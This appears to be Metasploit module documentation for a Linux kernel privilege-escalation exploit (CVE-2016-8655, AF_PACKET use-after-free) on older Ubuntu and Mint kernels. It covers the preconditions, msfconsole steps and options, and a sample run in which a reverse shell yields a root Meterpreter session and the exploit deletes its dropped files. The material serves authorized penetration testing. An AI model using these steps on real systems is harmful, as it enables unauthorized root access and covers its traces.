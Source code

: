 ## Description

  This module exploits a race condition and use-after-free in the
  `packet_set_ring` function in `net/packet/af_packet.c` (`AF_PACKET`) in
  the Linux kernel to execute code as `root` (CVE-2016-8655).

  The bug was initially introduced in 2011 and patched in 2016 in version
  4.4.0-53.74, potentially affecting a large number of kernels; however
  this exploit targets only systems using Ubuntu (Trusty / Xenial) kernels
  4.4.0 < 4.4.0-53, including Linux distros based on Ubuntu, such as
  Linux Mint.

  The target system must have unprivileged user namespaces enabled,
  two or more CPU cores, and SMAP must be disabled.

  Bypasses for SMEP and KASLR are included. Failed exploitation
  may crash the kernel.


## Vulnerable Application

  This module has been tested successfully on:

  * Linux Mint 17.3 (x86_64)
  * Linux Mint 18 (x86_64)
  * Ubuntu 16.04 (x86_64)
  * Ubuntu 16.04.2 (x86_64)


## Verification Steps

  1. Start `msfconsole`
  2. Get a session
  3. `use exploit/linux/local/af_packet_chocobo_root_priv_esc`
  4. `set SESSION [SESSION]`
  5. `check`
  6. `run`
  7. You should get a new *root* session


## Options

### SESSION

  Which session to use, which can be viewed with `sessions`

### WritableDir

  A writable directory file system path. (default: `/tmp`)

### TIMEOUT

  Race timeout (seconds). (default: `600`)

### COMPILE

  Options: `Auto` `True` `False` (default: `Auto`)

  Whether the exploit should be live compiled with `gcc` on the target system,
  or uploaded as a pre-compiled binary.

  `Auto` will first determine if `gcc` is installed to compile live on the system,
  and fall back to uploading a pre-compiled binary.


## Compiled Executable

The module makes use of a pre-compiled exploit executable to be
used when `gcc` is not available on the target host for live compiling,
or `COMPILE` is set to `False`.

The executable was cross-compiled with [musl-cross](https://s3.amazonaws.com/muslcross/musl-cross-linux-6.tar).

```bash
./x86_64-linux-musl-gcc -o chocobo_root -s -pie -static chocobo_root.c
```


## Scenarios

  ```
  msf > use exploit/linux/local/af_packet_chocobo_root_priv_esc 
  msf exploit(linux/local/af_packet_chocobo_root_priv_esc) > set session 1
  session => 1
  msf exploit(linux/local/af_packet_chocobo_root_priv_esc) > run
  [*] Started reverse TCP handler on 172.16.191.188:4444 
  [*] Writing '/tmp/.iDLrwN3S4.c' (24885 bytes) ...
  [*] Writing '/tmp/.rMIvkKT' (207 bytes) ...
  [*] Launching exploit (Timeout: 600)...
  [*] Sending stage (853256 bytes) to 172.16.191.209
  [*] Meterpreter session 2 opened (172.16.191.188:4444 -> 172.16.191.209:38530) at 2018-05-07 03:07:21 -0400
  [+] Deleted /tmp/.iDLrwN3S4.c
  [+] Deleted /tmp/.iDLrwN3S4
  [+] Deleted /tmp/.rMIvkKT

  meterpreter > getuid
  Server username: uid=0, gid=0, euid=0, egid=0
  meterpreter > sysinfo
  Computer     : 172.16.191.209
  OS           : Ubuntu 16.04 (Linux 4.4.0-51-generic)
  Architecture : x64
  BuildTuple   : i486-linux-musl
  Meterpreter  : x86/linux
  meterpreter >
  ```


